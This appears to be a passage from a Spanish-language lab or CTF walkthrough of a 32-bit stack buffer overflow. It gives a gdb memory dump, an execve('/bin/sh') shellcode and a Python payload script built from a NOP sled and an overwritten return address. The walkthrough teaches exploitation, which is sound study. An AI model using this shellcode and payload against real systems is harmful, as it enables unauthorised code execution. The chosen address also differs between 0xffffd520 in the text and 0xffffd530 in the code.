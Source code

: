 ```bash
0xffffd5d0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd5e0:	0x99580b6a	0x2f2f6852	0x2f686873	0x896e6962
0xffffd5f0:	0xcdc931e3	0x42424280	0x4f430042	0x54524f4c
0xffffd600:	0x3d4d5245	0x65757274	0x6f6c6f63	0x49440072
0xffffd610:	0x414c5053	0x303a3d59	0x4e414c00	0x2e433d47
0xffffd620:	0x2d465455	0x41500038	0x2f3d4854	0x2f727375
0xffffd630:	0x61636f6c	0x62732f6c	0x2f3a6e69	0x2f727375
0xffffd640:	0x61636f6c	0x69622f6c	0x752f3a6e	0x732f7273
0xffffd650:	0x3a6e6962	0x7273752f	0x6e69622f	0x62732f3a
0xffffd660:	0x2f3a6e69	0x3a6e6962	0x7273752f	0x636f6c2f
0xffffd670:	0x672f6c61	0x73656d61	0x73752f3a	0x61672f72
0xffffd680:	0x0073656d	0x4d524554	0x616c613d	0x74697263
0xffffd690:	0x58007974	0x48545541	0x5449524f	0x682f3d59
0xffffd6a0:	0x2f656d6f	0x7567696d	0x2e2f6c65	0x74756158
0xffffd6b0:	0x69726f68	0x58007974	0x435f4744	0x45525255
0xffffd6c0:	0x445f544e	0x544b5345	0x693d504f	0x534c0033
0xffffd6d0:	0x4c4f435f	0x3d53524f	0x303d7372	0x3d69643a
0xffffd6e0:	0x333b3130	0x6e6c3a34	0x3b31303d	0x6d3a3633
gdb-peda$
```

- Bueno vamos a tomar una dirección que contengo solo `nops` que es la esta mas repetida en este caso seria esta que yo elegí `0xffffd520:0x90909090`.

- **Junk** contiene una secuencia de caracteres `\x90` que, en hexadecimal, equivale a `0x90`, que es una sola instrucción `NOP`.

- De igual forma estamos en `little endian` así que vamos a darle la vuelta.

```bash
0xffffd530    | \xff\xff\xd5\x30     | \x30\xd5\xff\xff
```

- Ahora lo que vamos a hacer es cambiar los 4 B que habías puesto por la dirección en los `nops` esto para que los `nops` se desplacen en la pila asta llegar al `shellcode` y se ejecute.

```bash
➜  levels cat otro.py
#!/usr/bin/python2
# -*- coding: utf-8 -*-

offset = 268  # En el shellcode son las instrucciones maliciosas

shellcode  = b""
shellcode += b"\x6a\x0b\x58\x99\x52\x68\x2f"
shellcode += b"\x2f\x73\x68\x68\x2f\x62\x69"
shellcode += b"\x6e\x89\xe3\x31\xc9\xcd\x80"

# x90 representa la instrucción "NOP" en lenguaje de máquina
junk = b"\x90" * (offset - len(shellcode))

# Usamos la dirección deseada en little endian
eip = b"\x30\xd5\xff\xff"

# Salida del payload completo
print(junk + shellcode + eip)
```
